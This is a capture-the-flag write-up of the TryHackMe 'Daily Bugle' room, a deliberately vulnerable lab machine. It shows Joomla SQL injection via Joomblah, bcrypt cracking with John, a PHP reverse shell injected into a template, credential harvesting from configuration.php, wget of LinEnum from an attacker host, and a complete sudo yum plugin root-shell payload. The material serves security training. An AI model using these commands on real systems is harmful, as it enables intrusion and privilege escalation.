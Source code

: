 # TryHackMe - Daily Bugle

Welcome to my writeup to the **Daily Bugle** room of [TryHackMe](https://tryhackme.com/dailybugle)! As advised in the room descriptions, we will avoid using SQLMap and use a Python script on this one instead. Happy hacking!

## Task 1: Deploy

The first task is very easy again. We're told that there is a webserver which we can open.

![Screenshot 1 - Spiderman](screenshot1.png)

## Task 2: Obtain user and root

Let's start enumerating the server, and we will start with nmap.

![Screenshot 2 - nmap scan](screenshot2.png)

We see that there is probably a Joomla CMS working in the background. Let's dig a little bit deeper and make use of a nice tool for enumerating Joomla installations especially, called ```joomscan```.

![Screenshot 3 - JoomScan 1](screenshot3.png)
![Screenshot 4 - JoomScan 2](screenshot4.png)

The tool reveals the version of Joomla which is running. Now we should check if there is any known vulnerability in this software version. We can use ```searchsploit``` to search for an exploit.

![Screenshot 5 - searchsploit](screenshot5.png)

```searchsploit``` reveals that there is an exploit for a vulnerability found in this particular version of Joomla. You can navigate to ```/usr/share/exploitdb/exploits/php/webapps/42033.txt``` to have a look at it. In case you don't have the necessary packages installed, you can also download it from [Exploit-DB](https://www.exploit-db.com/exploits/42033).

In the exploit description we see the vulnerable URL and also a given SQLMap call that abuses this SQLi vulnerability. But as the room description suggests, and OSCP certification exam forbids automatic exploitation tools like SQLMap explicitly, let's try to find another way to exploit this. A research on Google regarding the CVE-2017-8917 reveals that an exploit called ```Joomblah``` exists for exactly this vulnerability. It can be found on [GitHub](https://github.com/XiphosResearch/exploits/tree/master/Joomblah).

The call would be:

```bash
python2 joomblah.py http://$machine:8080
```

So let's get it going!

![Screenshot 6 - Joomblah.py](screenshot6.png)

Now that we have the hashed password, we need to crack it. First of all we need to find out which hash format this is. We can use a tool called ```hashid``` to do that.

![Screenshot 7 - hashid](screenshot7.png)

Now that we know that bcrypt is the hash format, we can proceed with cracking the hash.

A very good tool to do this is [John the Ripper](https://www.openwall.com/john/), it is also included in the default Kali installation and also of course in the THM AttackBox.

Save the hash into a file called ```jonah_passwd_hash.txt``` and then run:

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt --rules jonah_passwd_hash.txt
```

It will take some time to crack it.

Now having the password for the user, we can log in to the admin page ```http://$machine/administrator```.

Next stop would be uploading a payload to get a reverse shell. As Joomla is a PHP based CMS, we can try to find out how to upload files or edit existing files (template files are a common attack vector for example) in order to place our reverse shell code. 

We will try the second approach and so we go to [revshells.com](https://revshells.com) and create a PentestMonkey PHP reverse shell payload. In the saved file, we need to delete the opening ```<?php``` tag.

Now we can go to the Joomla template editor under **Extensions > Templates > Templates** in the administrator UI and click on **Protostar Details and Files**.

Now we edit the ```index.php```file and inject our reverse shell code in the file.

![Screenshot 8 - Reverse shell code injection](screenshot8.png)

After saving the file, now every time we visit the main page, a reverse shell to our computer will be opened.

Open your netcat listener, reload the page, and there it is:

![Screenshot 9 - Reverse shell with netcat](screenshot9.png)

First of all, it is recommended to upgrade your reverse shell into an interactive shell, we can do this by using a simple Python snippet:

```bash
python -c 'import pty; pty.spawn("/bin/bash");'
```

Using the ```last``` command we can see, that **jjameson** was the last logged in user. As many people are lazy and re-use their passwords, we can try to ```su -l jjameson``` using the same password we cracked with ```john``` once again, but apparently it's not working in this case. So we need to find other hints how to elevate our privileges.

As we have the privileges of the webserver, we certainly can jump into the Joomla root directory and try to find some secrets.

In the file ```/var/www/html/configuration.php``` we can find some interesting plain text strings.

![Screenshot 10 - configuration.php](screenshot10.png)

Now we try ```su -l jjameson``` with the passwords we find here.

And boom:

![Screenshot 11 - Login as jjameson](screenshot11.png)

For more convenience, we can also use this password to log in via SSH.

Inside the user's home directory, we can find the user flag.

Let's enumerate the machine further. A helpful tool for that purpse is [LinEnum.sh](https://github.com/rebootuser/LinEnum).

We download the file from the GitHub repo and spin up a tiny HTTP server from where we will download it on to our target machine.

On your machine, do:
```bash
cd ~/Downloads
python3 -m http.server
```

On the target machine, do:
```bash
cd /var/tmp
wget http://$attackbox:8000/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

There is one interesting thing that ```LinEnum.sh``` reveals:

```
[+] We can sudo without supplying a password!
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

The user we're currently logged in as is able to execute ```yum``` with root permissions when using ```sudo```. There are multiple attack vectors that we can now make use of.

One way would be to craft an RPM package with a payload to get another reverse shell. Another way is to load a custom plugin. Fortunately, the [GTFObins collection](https://gtfobins.github.io/gtfobins/yum/) has a payload for exactly this.

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

If we fire these in our **jjameson** SSH session, we get an instant root shell and can collect our root flag.

## Summary

I did not find this room as hard, even without using SQLMap, but as the ```Joomblah.py``` Python script does the dirty work instead, I'm not sure if we were really doing something different here. Currently I'm not a master in SQL to do the necessary SQLi which got everything rolling the hard way. This is certainly one skill that I would like to develop further.